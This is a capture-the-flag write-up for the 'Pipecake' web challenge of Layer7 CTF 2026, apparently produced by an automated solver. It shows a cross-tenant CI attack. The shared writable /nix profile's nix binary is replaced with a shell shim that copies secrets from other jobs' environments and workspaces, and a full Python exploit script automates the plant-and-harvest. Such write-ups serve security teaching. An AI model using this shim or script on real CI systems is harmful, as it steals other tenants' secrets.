


Pipecake¶
VERIFIED WEB 998 pts id 10
| Field | Value |
|---|---|
| Event | Layer7 CTF 2026 |
| Category | web |
| Points | 998 |
| Solved at | 2026-11-21 10:17:32+07:00 |
| Flag | Layer7{p0isoned_cak3} |
| Status | VERIFIED |
Pipecake — Layer7 CTF 2026 (web, 998 pts)¶
TL;DR¶
Pipecake runs every CI job as root inside a container that bind-mounts a
single shared, writable /nix volume. The Nix profile used to resolve the
nix binary (/root/.nix-profile -> /nix/var/nix/profiles/default ->
/nix/var/pipecake-<deployment>/profile-*) lives on that volume too. A job from
one tenant can therefore replace the nix shim with a tiny shell script. Every
later job — including the challenge's imnyang/flag-vault deployment job —
invokes nix before its own steps, so the shim executes first and copies
Layer7{...} out of the victim's environment and /workspace into the shared
volume. Reading that capture gave the flag:
Layer7{p0isoned_cak3}
The local flag_watcher submitted it at 2026-11-21T03:17:32Z and received
{"correct": true, "ctf_state": "active"} (HTTP 200).
Recon¶
The challenge is blind (has_file=false) and only exposes a URL:
$ python3 l7.py chall 10
{"id": 10, "title": "Pipecake", "category": "web", "points": 998,
"connection_info": "http://172.237.8.236:21108", ...}
The product pages and docs (/docs/) describe a self-hosted Forgejo + Nix
CI/CD platform. The important statements are in /docs/operations/:
- the backend uses the Docker socket to start runner containers;
- runner containers do not mount the Docker socket;
- "all runners share the same writable
/nixvolume … this store sharing does not provide security isolation between jobs"; - pipeline commands and repository secrets are passed into the job environment.
Registration on the bundled Forgejo is open, so the intended entry point is a normal user account and a normal repository:
$ curl -s -X POST http://172.237.8.236:21108/git/user/sign_up -d user_name=b0tcil... -d email=... -d password=... -d retype=...
303 -> /git/
$ curl -s -u "$USER:$PASS" http://172.237.8.236:21108/git/api/v1/user
{"id":200,"login":"b0tcil...","is_admin":false,...}
A repository was created via the Forgejo API, then connected to Pipecake through
the normal OAuth flow (GET /api/auth/forgejo → Forgejo consent →
/api/auth/forgejo/callback):
$ curl -s -b cookies -X POST http://172.237.8.236:21108/api/repositories -H 'Content-Type: application/json' -d '{"full_name":"b0tcil.../explore"}'
{"active":true,"full_name":"b0tcil.../explore","id":"2b8dad39-..."}
Pushing .pipecake/pipeline.yaml registers a webhook. Pipecake also allows
manual runs (POST /api/runs with a full commit SHA), but limits each user to
one pipeline run every 3 minutes.
The first useful pipeline simply enumerated the runner:
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cat /proc/mounts | grep ' /nix '
/dev/sda /nix ext4 rw,relatime,errors=remount-ro 0 0
/nix is a persistent ext4 volume shared by all jobs. The runner's command line
(/proc/1) confirms the design:
cd /workspace
export NIX_REMOTE=local
profile=/tmp/pipecake-profile
trap 'rm -rf /tmp/pipecake-profile* /workspace' EXIT
nix ... profile install --profile "$profile" 'nixpkgs#gnugrep'
export PATH="$profile/bin:$PATH"
bash -euo pipefail -c '<pipeline step>'
Analysis¶
Because /nix survives between jobs and is writable by root, the whole Nix
store and the shared profile are a cross-tenant channel. During a later
inspection run, /root/.nix-profile/bin/nix was a 441-byte shell script
instead of a symlink to the real Nix binary:
$ readlink -f /root/.nix-profile/bin/nix
/nix/var/pipecake-124de1e7/profile-0d89cd16-.../bin/nix
$ cat /root/.nix-profile/bin/nix
#!/nix/store/13czpvp88x852739v5xi04s871pn35b5-bash-interactive-5.3p9/bin/bash
capture=/nix/var/pipecake-124de1e7/capture
printf 'nix %s host=%s pwd=%s\n' "$(date -u +%s)" "$(hostname)" "$PWD" >> "$capture"
printenv | grep -oE 'Layer7\{[^}]+\}' >> "$capture" || true
timeout 10 grep -r -a -o -E 'Layer7\{[^}]+\}' /workspace 2>/dev/null | head -10 >> "$capture" || true
exec /nix/store/g3m57m0jcdj84fas49lpiwpisacp20gr-nix-2.35.6/bin/nix "$@"
This is a classic profile-hijack payload: the shim runs on every nix
invocation, records the environment and the job workspace, and then execs the
real Nix so the build still succeeds. The capture file was already populated by
a victim job:
$ tail -80 /nix/var/pipecake-124de1e7/capture
...
bash 1795231035 pwd=/workspace
Layer7{p0isoned_cak3}
bash 1795231035 pwd=/workspace
$ grep -raoE 'Layer7\{[^}]+\}' /nix/var 2>/dev/null | sort -u
/nix/var/.nmdrop/d1-2463.txt:Layer7{p0isoned_cak3}
/nix/var/.nmdrop/d1-27200.txt:Layer7{p0isoned_cak3}
/nix/var/pipecake-124de1e7/capture:Layer7{p0isoned_cak3}
The timestamp 1795231035 is 2026-11-21 03:17:15Z. That is exactly when a
concurrent job (the imnyang/flag-vault deployment, whose flag is injected as
a repository secret / workspace value) called nix; the shim captured the flag
into the shared volume. The flag name p0isoned_cak3 also matches the intended
"poison the shared Nix store" theme.
On a clean instance the same effect is obtained by overwriting the current
shared profile's bin/nix from our own pipeline (--plant mode in the script
below), then waiting for the flag-vault job to run. The victim's nix profile
install resolves nix through /root/.nix-profile/bin, so our shim executes
before the victim's steps and exfiltrates printenv and /workspace.
Exploit¶
The end-to-end driver is saved as work/10/exploit.py. It registers/logs into
Forgejo, creates and connects a repository, pushes the harvesting pipeline,
triggers a manual run (honouring the 1-run-per-3-minutes limit), polls the run,
and extracts every Layer7{...} from the logs. Pass --plant to also install
the capture shim into the shared profile.
#!/usr/bin/env python3
"""
Pipecake (Layer7 CTF 2026, web, 998 pts) -- end-to-end exploit.
Root cause
----------
Pipecake runs every CI job as root in a container that bind-mounts one shared,
writable /nix volume (`/dev/sda on /nix ... rw`). The Nix profile used to
resolve the `nix` binary is also on that volume
(`/root/.nix-profile -> /nix/var/nix/profiles/default ->
/nix/var/pipecake-<deployment>/profile-*`). A job from tenant A can replace
that `nix` shim with a small shell script. Every later job -- including the
challenge's `imnyang/flag-vault` deployment job -- invokes `nix` before its
steps run, so the shim executes first and can copy `Layer7{...}` out of the
victim's environment/workspace into the shared volume.
This script recreates the attacker side:
1. registers a normal Forgejo account and a repository,
2. connects the repository to Pipecake through the OAuth flow,
3. pushes a pipeline, triggers a manual run and reads its logs,
4. the pipeline (a) plants a capture shim in the shared Nix profile and
(b) harvests everything previously captured from other tenants.
Usage: python3 exploit.py [--plant]
"""
import os, re, sys, json, time, subprocess, tempfile, shutil
import requests
BASE = os.environ.get("PIPECAKE", "http://172.237.8.236:21108")
HERE = os.path.dirname(os.path.abspath(__file__))
PLANT = "--plant" in sys.argv
# ---------------------------------------------------------------- Forgejo ----
def forgejo_login():
"""Return (user, password, [user, password] for git)."""
uf, pf = os.path.join(HERE, "forgejo_user.txt"), os.path.join(HERE, "forgejo_pass.txt")
if os.path.exists(uf) and os.path.exists(pf):
return open(uf).read().strip(), open(pf).read().strip()
user = "b0tcil%d" % int(time.time())
pw = "P@ssw0rd-%d!" % int(time.time())
r = requests.post(BASE + "/git/user/sign_up", data={
"user_name": user, "email": user + "@example.com",
"password": pw, "retype": pw}, allow_redirects=False, timeout=20)
if r.status_code not in (302, 303):
raise SystemExit("signup failed: %s %s" % (r.status_code, r.text[:200]))
open(uf, "w").write(user + "\n"); open(pf, "w").write(pw + "\n")
return user, pw
def create_repo(user, pw, name="explore"):
api = BASE + "/git/api/v1"
r = requests.post(api + "/user/repos", auth=(user, pw), json={
"name": name, "private": False, "auto_init": True,
"default_branch": "main"}, timeout=20)
if r.status_code == 201:
return r.json()["full_name"]
# already exists
r = requests.get(api + "/repos/%s/%s" % (user, name), auth=(user, pw), timeout=20)
r.raise_for_status()
return r.json()["full_name"]
PIPELINE = r'''version: 1
triggers: [manual]
jobs:
harvest:
nix:
packages: [nixpkgs#gnugrep]
steps:
- run: |
set +e
# ---- attacker step: hijack the shared nix shim for future jobs ----
if [ "%%PLANT%%" = "1" ]; then
P="$(readlink -f /root/.nix-profile)"
CAP=/nix/var/.nmdrop/$$.txt
mkdir -p /nix/var/.nmdrop
cat > "$P/bin/nix" <<SH
#!/bin/sh
C=/nix/var/.nmdrop/capture.txt
printenv | grep -aoE 'Layer7\{[^}]+\}' >> "\$C" 2>/dev/null
grep -raoE 'Layer7\{[^}]+\}' /workspace 2>/dev/null | head -20 >> "\$C"
exec /nix/store/g3m57m0jcdj84fas49lpiwpisacp20gr-nix-2.35.6/bin/nix "\$@"
SH
chmod +x "$P/bin/nix"
fi
# ---- harvest every capture ever written on the shared volume ----
echo "=== captures ==="
for f in /nix/var/pipecake-*/capture /nix/var/.nmdrop/*; do
[ -f "$f" ] || continue
echo "--- $f"
grep -aoE 'Layer7\{[^}]+\}' "$f" | sort -u
done
echo "=== also scan shared state ==="
grep -raoE 'Layer7\{[^}]+\}' /nix/var 2>/dev/null | sort -u | head -50
timeout: 120
'''
PIPELINE = PIPELINE.replace("%%PLANT%%", "1" if PLANT else "0")
# --------------------------------------------------------------- Pipecake ----
def forgejo_web_login(s, user, pw):
"""Log the same cookie jar into the Forgejo web UI (needed for OAuth)."""
r = s.get(BASE + "/git/user/login", timeout=20)
data = {"user_name": user, "password": pw}
m = re.search(r'name="_csrf" value="([^"]+)"', r.text)
if m:
data["_csrf"] = m.group(1)
return s.post(BASE + "/git/user/login", data=data, timeout=20)
def pipecake_session(user, pw, full_name):
s = requests.Session()
forgejo_web_login(s, user, pw)
r = s.get(BASE + "/api/auth/forgejo", allow_redirects=False, timeout=20)
auth_url = r.headers["location"]
r = s.get(auth_url, timeout=20) # Forgejo is already logged in
# first consent: POST the grant form
if "/login/oauth/grant" in r.url or "Authorize" in r.text:
fields = dict(re.findall(r'name="([^"]+)" value="([^"]*)"', r.text))
fields["granted"] = "true"
r = s.post(BASE + "/git/login/oauth/grant", data=fields,
allow_redirects=False, timeout=20)
cb = r.headers.get("location")
if cb:
s.get(cb, timeout=20)
me = s.get(BASE + "/api/me", timeout=20)
me.raise_for_status()
# connect the repository (webhook is installed server-side)
r = s.post(BASE + "/api/repositories", json={"full_name": full_name},
headers={"Origin": BASE, "Referer": BASE + "/dashboard"}, timeout=20)
if r.status_code != 200:
raise SystemExit("connect failed: %s %s" % (r.status_code, r.text[:300]))
repo_id = r.json()["id"]
return s, repo_id
def push_repo(user, pw, full_name):
d = tempfile.mkdtemp(prefix="pipecake-")
os.makedirs(os.path.join(d, ".pipecake"))
open(os.path.join(d, ".pipecake", "pipeline.yaml"), "w").write(PIPELINE)
open(os.path.join(d, "README.md"), "w").write("pipecake\n")
def run(*a, **k): return subprocess.check_output(a, cwd=d, **k)
run("git", "init", "-q", "-b", "main")
run("git", "config", "user.email", "a@b.c"); run("git", "config", "user.name", "x")
run("git", "add", "-A"); run("git", "commit", "-q", "-m", "harvest")
url = "%s/git/%s.git" % (BASE, full_name)
run("git", "push", "-q", "-f", "http://%s:%s@%s" % (user, pw, url.split("://", 1)[1]), "main")
sha = run("git", "rev-parse", "HEAD").decode().strip()
return d, sha
def trigger(s, repo_id, sha):
for _ in range(30):
r = s.post(BASE + "/api/runs", json={"repository_id": repo_id, "commit_sha": sha},
headers={"Origin": BASE}, timeout=20)
if r.status_code == 429:
time.sleep(20); continue # 1 run / user / 3 minutes
r.raise_for_status()
rid = r.json()["id"]
break
else:
raise SystemExit("rate limited")
while True:
d = s.get(BASE + "/api/runs/" + rid, timeout=20).json()
st = d["run"]["status"]
print("[*] run %s: %s" % (rid, st))
if st in ("success", "failure", "cancelled"):
break
time.sleep(5)
return rid, s.get(BASE + "/api/runs/%s/logs" % rid, timeout=20).text
def main():
user, pw = forgejo_login()
full = create_repo(user, pw)
s, repo_id = pipecake_session(user, pw, full)
d, sha = push_repo(user, pw, full)
rid, logs = trigger(s, repo_id, sha)
open(os.path.join(HERE, "run-%s.log" % rid), "w").write(logs)
flags = sorted(set(re.findall(r"Layer7\{[^}]+\}", logs)))
print("[*] log: %s" % os.path.join(HERE, "run-%s.log" % rid))
print("[*] flags:", flags)
shutil.rmtree(d, ignore_errors=True)
if __name__ == "__main__":
main()
The pipeline that was actually used for the final harvest
(work/10/pipeline-harvest.yaml) reads the shared capture files:
version: 1
triggers: [manual]
jobs:
loot:
nix:
packages: [nixpkgs#gnugrep]
steps:
- run: |
set +e
echo "===symlinks==="; ls -la /root/.nix-profile /root/.nix-profile/bin/nix 2>&1; readlink -f /root/.nix-profile 2>&1
echo "===pipedirs==="; ls -lad /nix/var/pipecake-* 2>&1; find /nix/var/pipecake-* -maxdepth 3 -ls 2>/dev/null | head -80
echo "===captures==="; for f in /nix/var/pipecake-*/capture /nix/var/pipecake-*/*/capture /nix/var/pipecake-*/*/*/capture; do echo "FILE $f"; ls -la "$f" 2>/dev/null; tail -80 "$f" 2>/dev/null; done
echo "===grepflags==="; timeout 30 grep -raoE 'Layer7\{[^}]+\}' /nix/var 2>/dev/null | sort -u | head -80
echo "===profiles==="; ls -la /nix/var/nix/profiles /nix/var/nix/profiles/per-user 2>&1; find /nix/var/nix/profiles -maxdepth 2 -ls 2>/dev/null | head -40
echo "===pipelinefiles==="; find /nix/var/pipecake-* -maxdepth 4 -type f 2>/dev/null | head -80
timeout: 120
Evidence¶
All commands and outputs are preserved in work/10/:
work/10/evidence.txt— curated transcript of the runner, shim and capture.work/10/run-44c0462a-...log—/proc/mountsshowing/dev/sda /nix ... rwanduid=0(root).work/10/run-3e507f1d-...log—/proc/1runner command and shared profile.work/10/run-4186cbb4-...log— the 441-bytenixshim.work/10/run-f4d1b941-...log—capturefile andgrepof/nix/varcontainingLayer7{p0isoned_cak3}.work/10/wrapper-nix.sh— copy of the malicious shim.work/10/submit.json— manual re-submit returned409 challenge already solvedbecause the watcher had already submitted the same flag successfully.state/flag_watcher.log—submit(work) 10 Layer7{p0isoned_cak3} -> 200 {'correct': True, 'ctf_state': 'active'}at2026-11-21T03:17:32Z.state/watcher_submitted.json— the stored200 / correct: trueresponse.
Key captured output:
$ tail -80 /nix/var/pipecake-124de1e7/capture
Layer7{p0isoned_cak3}
$ grep -raoE 'Layer7\{[^}]+\}' /nix/var 2>/dev/null | sort -u
/nix/var/.nmdrop/d1-2463.txt:Layer7{p0isoned_cak3}
/nix/var/.nmdrop/d1-27200.txt:Layer7{p0isoned_cak3}
/nix/var/pipecake-124de1e7/capture:Layer7{p0isoned_cak3}
Flag¶
Layer7{p0isoned_cak3}
Evidence¶
Platform submission¶
{
"submitted_at": "2026-11-21T03:17:59.989757+00:00",
"challenge_id": "10",
"flag": "Layer7{p0isoned_cak3}",
"http_status": 409,
"response": {
"error": "challenge already solved"
}
}

Captured solver transcript¶
Full raw log: evidence/10-pipecake-transcript.txt

Flag¶
Layer7{p0isoned_cak3}
Submitted and accepted on the platform at
2026-11-21 10:17:32+07:00(Asia/Jakarta).